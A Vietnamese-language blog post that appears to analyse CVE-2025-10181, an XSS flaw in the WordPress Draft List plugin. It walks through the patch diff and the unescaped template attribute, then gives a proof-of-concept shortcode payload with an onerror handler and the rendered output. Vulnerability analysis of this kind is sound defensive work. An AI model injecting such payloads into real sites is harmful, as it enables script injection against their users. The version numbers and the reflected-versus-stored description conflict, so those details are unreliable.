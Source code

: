 ```yaml
---
title: CVE-2025-10181 Analysis & POC
description: Security Vulnerability in WordPress  Draft List Plugin.
date: 2025-09-22 15:38:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, xss]
---
```


Lỗ hổng trong plugin ** Draft List** trước phiên bản **2.6.1**. Dữ liệu được lấy từ **GET** request được in trực tiếp vào **HTML attribute**, **reflected XSS** xảy ra khi người dùng có đặc quyền truy cập vào đường dẫn do attack cung cấp.
- **CVE ID**: [CVE-2025-10181](https://www.cve.org/CVERecord?id=CVE-2025-10181)
- **Product**: [WordPress  Draft List Plugin](https://wordpress.org/plugins/simple-draft-list)
- **Vulnerability Type**: Cross Site Scripting
- **Affected Versions**: <= 2.6
- **CVSS severity**: Low (6.5)
- **Required Privilege**: Contributor

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- ** Draft List**: v3.3.23(vul) và v2.6.1(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis
### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **inc/create-lists.php**.

**Bản lỗi**:

```php
$template   = html_entity_decode( $template );
```

**Bản vá**:

```php
$allowed_list = draft_list_allowed_html();

$template   = wp_kses( html_entity_decode( $template ), $allowed_list );

function draft_list_allowed_html() {

	$allowed_list = array(
		'a'          => array(
			'class' => array(),
			'href'  => array(),
			'rel'   => array(),
			'title' => array(),
		),
		'abbr'       => array(
			'title' => array(),
		),
		// Other logic
	);

	return $allowed_list;
}
```

Bản vá sử dụng [`wp_kses`](https://developer.wordpress.org/reference/functions/wp_kses/) để loại bỏ tất cả thẻ, thuộc tính hoặc giá trị không hợp lệ => Ngăn chặn tấn công XSS từ nội dung người dùng.

![Patch Diff](images/posts/2025-09-22-CVE-2025-10181/patch_diff.png)

### How It Work?
Trong cùng file **inc/create-lists.php**:

1. Shortcode với tên `drafts` được đăng ký bằng hàm `add_shortcode` nhận `draft_list_shortcode` làm callback.

```php
add_shortcode( 'drafts', 'draft_list_shortcode' );
```

2. `draft_list_shortcode` kiểm tra tồn tại và lấy các **attribute** của shortcode, sau đó trả về kết quả của `draft_list_generate_code`, với các đối số là những biến đã được khởi tạo và xử lý trước đó.

```php
function draft_list_shortcode( $paras = '' ) {
	// other logic
	$template  = '';

	if ( array_key_exists( 'template', $paras ) ) {
		$template = $paras['template'];
	}
	// other logic
	
	return draft_list_generate_code( $limit, $type, $order, $scheduled, $folder, $date, $created, $modified, $template, $words, $pending );
}
```

3. `draft_list_generate_code` là hàm dùng để tạo mã **HTML** danh sách các bài viết nháp (**drafts**) dựa trên các tham số đầu vào.

```php
function draft_list_generate_code_template_only( $drafts, $template = '', $list_limit = 0, ... ) {
    $code = '';
    $template = html_entity_decode( $template );
	$erorr = false

	// Kiểm tra template để đảm bảo rằng nó có chứa tag bắt buộc {{draft}} hoặc %draft%.
	if ( strpos( $template, '%draft%' ) === false && strpos( $template, '{{draft}}' ) === false ) {
		$code .= draft_list_report_error( __( 'The template must include the {{draft}} tag', 'simple-draft-list' ), $plugin_name, false );
		$error = true;
	}

	if (!error){
		$status = array( 'draft' );

		// Lấy danh sách có post có status=draft 
		$args = array(
			'post_status' => $status,
			'post_type'   => $type,
			'numberposts' => 99,
			'orderby'     => $sort_field,
			'sort_order'  => $sort_sequence,
		);

		$drafts = get_posts( $args );

		// Duyệt các draft
		$valid_draft = 1;
		foreach ( $drafts as $draft_data ) {
			if ( $valid_draft > $list_limit && $list_limit > 0 ) break;

			$draft_title = $draft_data->post_title;

			if ( $list ) $this_line = "\t<li>"; else $this_line = '';
			$this_line .= $template;
			if ( $list ) $this_line .= "</li>";

			$code .= $this_line . "\n";
			$valid_draft++;
		}
	}

    return $code;
}
```

Với mỗi `$draft_data`, nội dung của `$template` được concat trực tiếp vào `$this_line`.

Sau đó `$this_line` được concat vào `$code`.

Cuối cùng `$code` là toàn bộ HTML được trả về và hiển thị trong trình duyệt.

**Điều quan trọng**:

- Hàm không **lọc** hay **escape** `$template` trước khi concat, nên nếu `$template` chứa payload XSS, payload đó sẽ được in thẳng ra HTML.
- Ta cần điều kiện `!error`=`true` để `foreach ( $drafts as $draft_data )` được diễn ra => cần có `{{draft}}` hoặc `%draft%` trong `$template`

---

## Exploit 
### Detect XSS
Tạo post mới với shortcode `drafts` chứa attribute `template` chứa XSS payload và **save draft**:

```
[drafts template='{{draft}} <img src=x onerror=alert(document.domain)>']
```

**View Source**

```html
<div class="entry-content alignfull wp-block-post-content has-global-padding is-layout-constrained wp-block-post-content-is-layout-constrained"><a href="http://localhost/wp-admin/post.php?post=110&amp;action=edit" rel="nofollow">tét</a> <img decoding="async" src="x">
Privacy Policy <img decoding="async" src="x">

</div>
```

---
